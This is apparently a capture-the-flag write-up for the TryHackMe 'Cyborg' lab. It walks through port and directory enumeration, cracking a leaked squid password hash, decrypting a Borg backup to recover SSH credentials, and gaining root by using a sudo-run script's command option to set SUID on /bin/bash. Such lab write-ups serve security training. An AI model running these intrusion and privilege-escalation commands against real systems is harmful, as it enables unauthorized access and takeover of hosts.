


---

Name: Cyborg
Difficulty: Easy
URL: https://tryhackme.com/room/cyborgt8

---

# Solution
We start by enumerating open ports on the server
```bash
rustscan -a cyborg.thm -r 1-65535 --ulimit 5000 -- -sC -sV
```
```bash
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 db:b2:70:f3:07:ac:32:00:3f:81:b8:d0:3a:89:f3:65 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCtLmojJ45opVBHg89gyhjnTTwgEf8lVKKbUfVwmfqYP9gU3fWZD05rB/4p/qSoPbsGWvDUlSTUYMDcxNqaADH/nk58URDIiFMEM6dTiMa0grcKC5u4NRxOCtZGHTrZfiYLQKQkBsbmjbb5qpcuhYo/tzhVXsrr592Uph4iiUx8zhgfYhqgtehMG+UhzQRjnOBQ6GZmI4NyLQtHq7jSeu7ykqS9KEdkgwbBlGnDrC7ke1I9352lBb7jlsL/amXt2uiRrBgsmz2AuF+ylGha97t6JkueMYHih4Pgn4X0WnwrcUOrY7q9bxB1jQx6laHrExPbz+7/Na9huvDkLFkr5Soh
|   256 68:e6:85:2f:69:65:5b:e7:c6:31:2c:8e:41:67:d7:ba (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBB5OB3VYSlOPJbOwXHV/je/alwaaJ8qljr3iLnKKGkwC4+PtH7IhMCAC3vim719GDimVEEGdQPbxUF6eH2QZb20=
|   256 56:2c:79:92:ca:23:c3:91:49:35:fa:dd:69:7c:ca:ab (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKlr5id6IfMeWb2ZC+LelPmOMm9S8ugHG2TtZ5HpFuZQ
80/tcp open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

The server displays the default apache page on http://cyborg.thm, so we move to enumerating directories and files



```bash
gobuster dir -u http://cyborg.thm -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -t 100 -x txt,php,html,bak,zip,log -k
```
```bash
===============================================================
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://cyborg.thm
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8.2
[+] Extensions:              php,html,bak,zip,log,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
.hta.php             (Status: 403) [Size: 275]
.hta                 (Status: 403) [Size: 275]
.hta.zip             (Status: 403) [Size: 275]
.hta.bak             (Status: 403) [Size: 275]
.htaccess            (Status: 403) [Size: 275]
.hta.log             (Status: 403) [Size: 275]
.hta.html            (Status: 403) [Size: 275]
.hta.txt             (Status: 403) [Size: 275]
.htaccess.zip        (Status: 403) [Size: 275]
.htaccess.html       (Status: 403) [Size: 275]
.htaccess.txt        (Status: 403) [Size: 275]
.htaccess.php        (Status: 403) [Size: 275]
.htpasswd            (Status: 403) [Size: 275]
.htaccess.log        (Status: 403) [Size: 275]
.htpasswd.html       (Status: 403) [Size: 275]
.htaccess.bak        (Status: 403) [Size: 275]
.htpasswd.bak        (Status: 403) [Size: 275]
.htpasswd.log        (Status: 403) [Size: 275]
.htpasswd.php        (Status: 403) [Size: 275]
.htpasswd.zip        (Status: 403) [Size: 275]
.htpasswd.txt        (Status: 403) [Size: 275]
admin                (Status: 301) [Size: 308] [--> http://cyborg.thm/admin/]
etc                  (Status: 301) [Size: 306] [--> http://cyborg.thm/etc/]
index.html           (Status: 200) [Size: 11321]
index.html           (Status: 200) [Size: 11321]
server-status        (Status: 403) [Size: 275]
Progress: 33257 / 33257 (100.00%)
===============================================================
Finished
===============================================================
```

We first inspect /etc which has some files inside it, /etc/squid/passwd
```bash
music_archive:$apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn.
```

and /etc/squid/squid.conf
```bash
auth_param basic program /usr/lib64/squid/basic_ncsa_auth /etc/squid/passwd
auth_param basic children 5
auth_param basic realm Squid Basic Authentication
auth_param basic credentialsttl 2 hours
acl auth_users proxy_auth REQUIRED
http_access allow auth_users
```

Now moving to /admin, we see an archive we can download, archive.tar



These are inside it
```bash
home/field/dev/final_archive/
home/field/dev/final_archive/hints.5
home/field/dev/final_archive/integrity.5
home/field/dev/final_archive/config
home/field/dev/final_archive/README
home/field/dev/final_archive/nonce
home/field/dev/final_archive/index.5
home/field/dev/final_archive/data/
home/field/dev/final_archive/data/0/
home/field/dev/final_archive/data/0/5
home/field/dev/final_archive/data/0/3
home/field/dev/final_archive/data/0/4
home/field/dev/final_archive/data/0/1
```

Inside the readme we find
```bash
This is a Borg Backup repository.
See https://borgbackup.readthedocs.io/
```

We try to find more info about it, but it asks for a passphrase
```bash
borg info home/field/dev/final_archive
Enter passphrase for key /tmp/home/field/dev/final_archive:
```

Lets crack the hash we found earlier
```bash
echo 'music_archive:$apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn.' > hash.txt
```

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-opencl"
Use the "--format=md5crypt-opencl" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 512/512 AVX-512 16x3])
Will run 32 OpenMP threads
Note: Passwords longer than 5 [worst case UTF-8] to 15 [ASCII] rejected
Press 'q' or Ctrl-C to abort, 'h' for help, almost any other key for status
squidward        (music_archive)
1g 0:00:00:00 DONE (2026-07-22 11:56) 10.00g/s 430080p/s 430080c/s 430080C/s greentree..geezer
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

Now we can use squidward as the passphrase
```bash

Repository ID: ebb1973fa0114d4ff34180d1e116c913d73ad1968bf375babd0259f74b848d31
Location: /tmp/home/field/dev/final_archive
Encrypted: Yes (repokey BLAKE2b)
Cache: /home/theo/.cache/borg/ebb1973fa0114d4ff34180d1e116c913d73ad1968bf375babd0259f74b848d31
Security dir: /home/theo/.config/borg/security/ebb1973fa0114d4ff34180d1e116c913d73ad1968bf375babd0259f74b848d31
------------------------------------------------------------------------------
                       Original size      Compressed size    Deduplicated size
All archives:                1.49 MB              1.49 MB              1.50 MB

                       Unique chunks         Total chunks
Chunk index:                      99                   99
```

Lets list its contents and extract the files
```bash
borg list home/field/dev/final_archive
borg list home/field/dev/final_archive::music_archive
borg extract home/field/dev/final_archive::music_archive
```

Now we can take a better look at them
```bash
 tree
.
├── alex
│   ├── Desktop
│   │   └── secret.txt
│   ├── Documents
│   │   └── note.txt
│   ├── Downloads
│   ├── Music
│   ├── Pictures
│   ├── Public
│   ├── Templates
│   └── Videos
└── field
    └── dev
        └── final_archive
            ├── config
            ├── data
            │   └── 0
            │       ├── 1
            │       ├── 3
            │       ├── 4
            │       └── 5
            ├── hints.5
            ├── index.5
            ├── integrity.5
            ├── nonce
            └── README
```

secret.txt contains just a message
```txt
shoutout to all the people who have gotten to this stage whoop whoop!"
```

note.txt contains some SSH credentials

```bash
cat alex/Documents/note.txt
Wow I'm awful at remembering Passwords so I've taken my Friends advice and noting them down!

alex:S3cretP@s3
```

Now we can SSH into the server and read the user flag
```bash
ssh alex@cyborg.thm
```
```bash
alex@ubuntu:~$ cat user.txt
flag{REDACTED}
```

Lets view what we can run with sudo
```bash
alex@ubuntu:~$ sudo -l
Matching Defaults entries for alex on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alex may run the following commands on ubuntu:
    (ALL : ALL) NOPASSWD: /etc/mp3backups/backup.sh
```

That backup script is interesting
```bash
alex@ubuntu:/etc/mp3backups$ cat backup.sh
#!/bin/bash

sudo find / -name "*.mp3" | sudo tee /etc/mp3backups/backed_up_files.txt


input="/etc/mp3backups/backed_up_files.txt"
#while IFS= read -r line
#do
  #a="/etc/mp3backups/backed_up_files.txt"
#  b=$(basename $input)
  #echo
#  echo "$line"
#done < "$input"

while getopts c: flag
do
        case "${flag}" in
                c) command=${OPTARG};;
        esac
done


backup_files="/home/alex/Music/song1.mp3 /home/alex/Music/song2.mp3 /home/alex/Music/song3.mp3 /home/alex/Music/song4.mp3 /home/alex/Music/song5.mp3 /home/alex/Music/song6.mp3 /home/alex/Music/song7.mp3 /home/alex/Music/song8.mp3 /home/alex/Music/song9.mp3 /home/alex/Music/song10.mp3 /home/alex/Music/song11.mp3 /home/alex/Music/song12.mp3"

# Where to backup to.
dest="/etc/mp3backups/"

# Create archive filename.
hostname=$(hostname -s)
archive_file="$hostname-scheduled.tgz"

# Print start status message.
echo "Backing up $backup_files to $dest/$archive_file"

echo

# Backup the files using tar.
tar czf $dest/$archive_file $backup_files

# Print end status message.
echo
echo "Backup finished"

cmd=$($command)
echo $cmd
```

Can we change the file? Even though we own it, no
```bash
alex@ubuntu:/etc/mp3backups$ ls -l
total 12
-rw-r--r-- 1 root root  339 Jul 22 02:07 backed_up_files.txt
-r-xr-xr-- 1 alex alex 1083 Dec 30  2020 backup.sh
-rw-r--r-- 1 root root   45 Jul 22 02:07 ubuntu-scheduled.tgz
```

But we can still run commands with the -c option
```bash
backup.sh -c whoami
```

Lets give SUID to /bin/bash and get a shell as root
```bash
sudo /etc/mp3backups/backup.sh -c "chmod u+s /bin/bash"
```
```bash
/bin/bash -p
```
```bash
cat /root/root.txt
flag{REDACTED}
```
